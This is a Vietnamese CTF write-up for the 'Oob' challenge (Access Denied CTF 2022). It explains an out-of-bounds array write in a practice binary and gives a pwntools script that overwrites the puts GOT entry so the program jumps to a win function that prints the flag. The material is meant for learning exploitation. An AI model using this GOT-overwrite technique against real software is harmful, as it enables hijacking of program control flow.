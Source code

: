 # [Access Denied CTF 2022] Oob
<p>Chương trình yêu cầu nhập index và sau đó là giá trị để gán vào arr[index]. Vì người dùng có thể nhập index tùy ý, nên có thể ghi ra ngoài phạm vi mảng -> dẫn đến lỗi Out-of-Bounds.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image.png)

<p>Quan sát bảng Functions, ta có hàm win trả về nội dung flag -> Mục tiêu: trỏ đến hàm win.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image-3.png)

<p>Mảng arr bắt đầu tại địa chỉ 0x404080 trong vùng .bss.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image-1.png)

<p>Hàm puts được gọi ngay sau thao tác ghi vào mảng. Vì địa chỉ GOT của puts là 0x404018, nằm trước mảng arr, nên ta có thể lợi dụng lỗi Out-of-Bounds để ghi đè địa chỉ thực sự của hàm puts này thành địa chỉ của hàm win.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image-6.png)


<p>Có thể tính được index để đến địa chỉ GOT của hàm puts bằng:  - (địa chỉ arr - địa chỉ GOT của puts) chia cho 4. Vì kiểu của các phần tử là int nên kích thước là 4 byte nên chia cho 4. Còn lấy giá trị âm bởi vì địa chỉ địa chỉ GOT của puts nằm trước nên index sẽ có index là âm. Script exploit:</p>

```
from pwn import *

p = process('./oob')
elf = ELF('./oob')

offset = - (elf.sym['arr'] - elf.got['puts']) // 4  
win_addr = elf.sym['win']

p.sendlineafter(b'Enter the index: ', str(offset).encode())
p.sendlineafter(b'Enter the value: ', str(win_addr).encode())

p.interactive()
```

<p>Chạy script và lấy được flag thành công.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image-4.png)

<p>Sau khi thực hiện script, chương trình gọi puts, nhưng do địa chỉ thực sự của puts đã bị ghi đè thành win, nên thực chất chương trình nhảy vào hàm win và in ra flag.</p>

![alt text](/thanhlai/post/buffer_overflow/image/post3/image-5.png)